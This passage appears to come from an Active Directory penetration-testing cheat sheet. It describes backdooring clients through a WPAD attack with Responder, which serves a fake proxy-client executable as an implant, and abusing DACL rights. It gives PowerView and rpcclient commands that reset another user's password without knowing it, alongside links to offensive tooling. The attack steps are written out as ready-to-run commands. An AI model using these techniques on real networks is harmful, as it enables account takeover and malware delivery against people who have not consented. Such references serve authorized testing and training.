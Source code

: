 --> Backdooring using Responder and WPAD attack
Modify Responder configuration file
```
; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = On
```

--> Create a specific web page for error or use the default one.  

--> Create an implant to be downloaded by the client. By default the error message indicate this URL : ```http://isaProxysrv/ProxyClient.exe```  

--> Patch by Microsoft (MS16-077): Location of WPAD file is no longer requested via broadcast protocols bnut only via DNS.

### ACL / DACL Exploitation
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#forcechangepassword
- https://github.com/ShutdownRepo/The-Hacker-Recipes/tree/master/ad/movement/dacl

<img src="./images/DACLabuse-dark.png" width="800"/>

##### BloodyAD - AutoBloody
- https://github.com/CravateRouge/bloodyAD
- https://github.com/CravateRouge/autobloody
  

##### DACL Edit python script
- https://github.com/fortra/impacket/pull/1291/files#diff-9648ed41f85733cdf640836e6166cb9dfd8f6c2e967491da2b516bbd2aac9989
  
#####  ForceChangePassword
- https://docs.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password
If we have *ExtendedRight* on *User-Force-Change-Password* object type, we can reset the user's password without knowing their current password.  

Returns the ACLs associated with jdoe user in DOMAIN.local domain and resolve GUIDs to their display names
```
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "DOMAIN.local\jdoe"}

```

```
. .\PowerView.ps1
Set-DomainUserPassword -Identity User -Verbose
```

Using *rpcclient*
```
rpcclient -U jdoe 10.10.10.192
setuserinfo2 victimUser 23 'Pass123!'
```

